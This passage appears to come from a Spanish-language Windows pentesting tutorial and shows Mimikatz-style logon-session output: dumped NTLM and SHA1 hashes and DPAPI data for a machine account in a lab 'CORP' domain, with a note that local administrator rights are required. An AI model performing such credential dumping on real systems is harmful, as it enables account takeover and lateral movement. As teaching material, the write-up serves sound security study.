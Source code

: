 ```
         * Password : W2UkIN'=^U\uRLwnNQE<-f]K_v3rD5"'uhN0A=$lN"Wuekd4JVo>l_lP\]'6w,)3^]O^QV'.28)OxQAI,:%_hr]84%Ih"dEor\c-"_/oegr"_alxGdYbwwY_
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 51794 (00000000:0000ca52)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 19/01/2025 9:19:04
SID               :
        msv :
         [00000003] Primary
         * Username : WS01$
         * Domain   : CORP
         * NTLM     : afc5c02d936d73808ce716070e883ab8
         * SHA1     : bfd2e01febbbd50a8d4a7968d68ebec9ad9a792f
         * DPAPI    : bfd2e01febbbd50a8d4a7968d68ebec9
        tspkg :
        wdigest :
        kerberos :
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WS01$
Domain            : CORP
Logon Server      : (null)
Logon Time        : 19/01/2025 9:19:04
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WS01$
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : ws01$
         * Domain   : CORP.LOCAL
         * Password : (null)
        ssp :
        credman :
        cloudap :
```

Para realizar esto tendremos que ser `administradores` locales del sistema.
